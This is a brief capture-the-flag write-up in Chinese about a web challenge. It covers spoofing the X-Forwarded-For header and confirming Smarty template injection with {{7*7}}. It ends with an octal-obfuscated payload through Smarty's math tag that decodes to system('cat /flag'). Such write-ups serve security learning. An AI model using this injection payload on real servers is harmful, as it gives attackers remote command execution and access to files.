



题目的意思看起来是先伪造 XFF，伪造了确实可以成功



题目给了提示是 Smarty，想到 SSTI，用 `{{7*7}}` 发现存在漏洞



payload，里面是八进制

```payload
eval:{math equation='("\163\171\163\164\145\155")("\143\141\164\40\57\146\154\141\147")'}
```

